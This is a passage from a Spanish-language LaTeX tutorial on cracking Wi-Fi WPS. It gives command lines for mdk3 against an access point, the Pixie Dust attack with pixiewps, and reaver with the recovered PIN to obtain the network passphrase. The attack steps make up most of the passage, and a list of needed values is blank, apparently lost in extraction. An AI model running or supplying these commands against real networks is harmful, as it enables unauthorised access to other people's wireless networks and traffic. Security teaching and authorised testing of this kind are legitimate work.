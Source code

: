 \begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@mdk3 !\val{nic\_att\_mon}! a -a !\val{bssid\_ap}! -m@@
\end{lstlisting}

Luego vuelva a lanzar el ataque reaver.

Otra cosa, más evidente, que puede hacer es aumentar la potencia de Tx, si se lo permite su NIC, o usar una
NIC con mayor recepción (\si{\deci\bel i}, decibelios isotrópicos).

Para hacer el ataque Pixie Dust, basta con que vea que ha obtenido los valores de , ,
, ,  y .

Ahora, en otra ventana del emulador de terminal, ejecute:

\begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@pixiewps -e !\val{pke}! -r !\val{pkr}! -s !\val{e-hash1}! \ @@
  > @@-z !\val{e-hash2}! -a !\val{authkey}! -n !\val{e-nonce}!@@
\end{lstlisting}

Esto, si se lo permite el punto de acceso que está atacando, debería devolverle el PIN de WPS de dicho punto
de acceso. Con dicho PIN puede obtenerse la pashphrase del punto de acceso. Para eso deberá introducir:

\begin{lstlisting}[gobble=2,language=bash,style=bashinteract,escapechar=!]
  !\promptr! @@reaver -i !\val{nic\_val\_mon}! -vv -S -b !\val{bssid\_ap}! \ @@
  > @@-c !\val{canal\_ap}! --pin=!\val{pin}!@@
\end{lstlisting}
